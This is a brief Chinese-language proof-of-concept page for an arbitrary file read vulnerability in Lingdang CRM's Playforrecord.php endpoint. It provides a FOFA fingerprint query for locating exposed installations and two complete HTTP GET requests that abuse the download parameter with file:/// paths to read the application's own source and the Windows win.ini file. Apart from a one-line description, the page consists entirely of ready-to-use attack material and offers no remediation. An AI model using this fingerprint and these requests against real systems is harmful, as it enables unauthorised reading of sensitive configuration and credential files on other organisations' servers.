 # 灵当CRM系统接口Playforrecord接口处存在任意文件读取漏洞

灵当CRM系统接口Playforrecord.php接口处存在任意文件读取漏洞，允许攻击者通过恶意读取系统配置文件，获取敏感信息。

## fofa

```javascript
body="include/js/ldAjax.js"
```

## poc

```javascript
GET /crm/modules/Accounts/Playforrecord.php?download=file:///D:/ldcrm/www/crm/modules/Accounts/Playforrecord.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

```javascript
GET /crm/modules/Accounts/Playforrecord.php?download=file:///c:/windows/win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

